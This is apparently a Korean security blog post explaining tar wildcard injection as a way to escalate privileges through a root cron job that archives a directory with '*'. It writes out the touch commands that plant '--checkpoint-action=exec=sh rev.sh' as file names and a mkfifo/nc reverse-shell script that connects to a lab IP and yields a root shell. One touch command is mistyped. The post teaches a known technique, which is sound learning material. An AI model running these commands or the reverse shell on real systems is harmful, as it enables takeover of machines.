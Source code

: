 ```yaml
---
layout: post
title: Wildcard(*)인젝션에 대하여
subtitle: 와일드카드를 이용한 취약점
category: knowledge
thumbnail-img: /assets/img/knowledge/revshell.png
tags: [knowledge, wildcard]
author: Hong
---
```


와일드카드(*)를 이용한 권한상승 취약점에 대한 설명글.

# 시나리오
cron에 등록된 작업에 와일드카드를 이용한 명령어가 적혀있는 경우를 가정하여 권한상승 공격을 실시.

`cat /etc/crontab`을 했을 경우 아래와 같은 작업이 등록되어 있다고 가정한다.
```
# m h dom mon dow user  command
*/01 *  * * *   root    cd /home/vuln/backuplog && tar -zcf /backup/backuplog.tar.gz *
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
여기서 주목해야 할 부분은 처음에 있는 tar 명령어와 root의 권한으로 실행된다는 점.

tar의 옵션중 --checkpoint-action을 이용하면 지정한 파일을 실행하는 것도 가능하다. 

위의 첫번째 작업을 해석하면, `/home/vuln/backuplog`라는 디렉토리로 이동 후, 그 디렉토리안에 있는 **모든 파일**을 하나로 묶어 `backup`디렉토리에 저장하고 있다.

# 취약점

이 점을 이용하여 디렉토리에 명령어를 파일처럼 만들어두어 tar가 실행하도록 한다.

[tar 체크포인트의 설명](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html)

`touch -- 'checkpoint=1`

`touch --checkpoint-action=exec=sh rev.sh`

위와 같이 두개의 명령어를 추가하여 리버스쉘을 실행하도록 유도할 수 있다.

`touch --`를 해야 명령어 형식의 파일을 만들 수 있다.
```
ls /home/vuln/backuplog
'--checkpoint-action=exec=sh rev.sh'  
'--checkpoint=1'   
bad.log   
good.log   
rev.sh
```
`backuplog`디렉토리를 보면 방금 만든 명령어 2개와 리버스쉘 파일, 그리고 good,bad라는 로그파일 두개가 있다.

rev.sh라는 실행파일은 리버스쉘을 위해 작성한 실행파일이다.
안에 내용물은 아래와 같다.
```
#! /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|../Desktop/nc 192.168.11.135 8888 >/tmp/f
```

cron잡에 의해 위의 파일은 결국 다음과 같이 실행될 것이다.

`tar -zcf /backup/backuplog.tar.gz --checkpoint=1 --checkpoint-action=exec=sh rev.sh bad.log good.log rev.sh`

crontab을 보면 백업 작업이 매분마다 실행되었기 때문에 호스트 머신에서 포트를 리스닝하고 기다리고있으면 cron잡이 실행되어 root로 타겟머신의 쉘이 열리게 된다.

![result](/assets/img/knowledge/revshell.png)
`id`명령어를 실행하면 root로 쉘을 취득한 것을 알 수 있다.